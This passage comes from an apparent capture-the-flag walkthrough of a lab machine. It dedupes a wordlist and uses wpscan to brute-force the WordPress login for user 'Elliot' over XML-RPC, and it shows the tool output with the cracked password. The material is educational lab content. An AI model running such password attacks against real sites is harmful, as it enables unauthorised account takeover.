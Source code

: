 No success finding a username

```
[i] No Users Found.
```

>**Hint:** Try Username `Elliot`.
>Why elliot? Based on the theme of the challenge other participants found this user exists.

Finding a password.

We can try brute forcing the password using the fsocity.dic dictionary we found previously.

The dictionary contains a lot of duplicate values so to speed uo the process and reduce duplicate guesses lets strip out duplicate values.

```
root@kali:~# cat fsocity.dic | sort | uniq > fsocuniq.dic
```

Let's use the dictionary to do a dictionary attack against the `Elliot` user.

```
root@kali:~# wpscan --url http://10.0.2.5/ -U Elliot -P fsocuniq.dic
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.6
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

.
.
.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:51 <===================================

[i] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Mar  2 07:49:18 2020
[+] Requests Done: 65
[+] Cached Requests: 5
[+] Data Sent: 15.811 KB
[+] Data Received: 1.27 MB
[+] Memory used: 180.98 MB
[+] Elapsed time: 00:00:58
```
